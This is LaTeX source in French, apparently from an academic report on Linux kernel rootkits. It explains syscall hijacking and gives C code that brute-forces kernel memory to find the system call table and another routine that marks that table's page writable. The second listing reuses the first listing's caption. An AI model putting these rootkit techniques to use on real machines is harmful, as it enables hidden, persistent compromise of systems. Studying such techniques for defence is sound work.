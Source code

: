 \documentclass[12pt]{article}
\begin{document}
        La solution la plus directe et la plus simple pour détourner les appels système est de modifier la table des appels système\cite{turbochaos}. Pour se faire, il faut tout d'abord localiser son emplacement en mémoire. Il existe, dans une structure appelée \texttt{sys\_call\_table}, un pointeur la référençant utilisé par tous les appels système. La localisation  se fait ensuite via une attaque par force brute d'une série d'adresses du kernel, comme présenté dans le Listing~\ref{listing:1}. Pour chaque adresse, un offset est ajouté à la valeur pointée, qui est ensuite comparée avec l'adresse connue d'un appel système. Si les deux valeurs correspondent, l'itération est arrêtée et l'adresse utilisée durant ce tour de boucle est celle de la table des appels système.

\begin{listing}[H]
\begin{verbatim}
#if defined(__i386__) /* x86 */
    #define SCT_START_CHECK 0xc0000000
    #define SCT_END_CHECK   0xd0000000
    typedef unsigned int ptr_t;
#else /* x86_64 */
    #define SCT_START_CHECK 0xffffffff81000000
    #define SCT_END_CHECK   0xffffffffa2000000
    typedef unsigned long ptr_t;
#endif /* arch */

ptr_t find_syscall_table(void) {
    ptr_t** sc_table;
    ptr_t addr = SCT_START_CHECK;
    
    while (addr < SCT_END_CHECK) {
        sc_table = (ptr_t**) addr;
        if (sc_table[__NR_close] == (ptr_t*) sys_close) {
            return (ptr_t) &sc_table[0];
        }

        addr += sizeof(void *);
    }
    return NULL;
}
\end{verbatim}
\caption{Code permettant de trouver l'adresse de la table des appels système\cite{turbochaos}}
\label{listing:1}
\end{listing}
        
        Comme la mémoire kernel est partagée entre tous les éléments opérant au niveau du noyau, il est possible de remplacer les pointeurs vers les appels système par des fonctions définies dans notre rootkit. Le problème étant que la page mémoire contenant la table des appels système est en lecture seule. Il faut donc au préalable modifier les droits sur cette dernière grâce à la structure \texttt{pte\_t} (Page Table Entry) qui contient les attributs d'une page donnée. Ceci est rendu possible par la fonction donnée dans le Listing~\ref{listing:2}.
        
\begin{listing}[H]
\begin{verbatim}
int set_page_rw(ptr_t address) {
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);

    if (pte->pte &~ _PAGE_RW) {
        pte->pte |= _PAGE_RW;
    }

    return 0;
}
\end{verbatim}
\caption{Code permettant de trouver l'adresse de la table des appels système\cite{turbochaos}}
\label{listing:2}
\end{listing}
\end{document}
